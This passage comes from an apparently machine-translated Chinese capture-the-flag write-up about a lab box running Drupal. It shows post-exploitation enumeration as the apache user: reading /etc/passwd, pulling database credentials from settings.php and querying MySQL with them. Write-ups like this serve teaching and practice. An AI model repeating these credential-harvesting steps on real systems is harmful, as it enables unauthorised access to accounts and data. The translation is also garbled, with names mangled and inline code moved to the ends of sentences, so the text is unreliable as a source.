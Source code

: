     bash-4.2$ ls -l /home
    ls -l /home
    ls: cannot open directory /home: Permission denied
    

看看，还有一个有趣的描述，布鲁斯阿拉德明：`/etc/passwd`

    bash-4.2$ cat /etc/passwd | grep sh
    cat /etc/passwd | grep sh
    root:x:0:0:root:/root:/bin/bash
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
    apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
    brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
    

#### 德鲁帕尔配置

apache无法访问太多，所以回到Web目录。中有一个文件。它有数据库信誉：`settings.php``/var/www/html/sites/default`

    $databases = array (
      'default' =>
      array (
        'default' =>
        array (
          'database' => 'drupal',
          'username' => 'drupaluser',
          'password' => 'CQHEy@9M*m23gBVj',
          'host' => 'localhost',
          'port' => '',
          'driver' => 'mysql',
          'prefix' => '',
        ),
      ),
    );
    

其他所有内容看起来都是默认的。

#### 数据库

因为我的 shell 不在 PTY 中，所以我必须从命令行运行 DB 命令。德鲁帕尔创建了一堆表格：

    bash-4.2$ mysql -e 'show tables;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
    Tables_in_drupal
    actions
    authmap
    batch
    block
    ...[snip]...
    users
    users_roles
    variable
    watchdog
    

我立即对 感兴趣。`users`
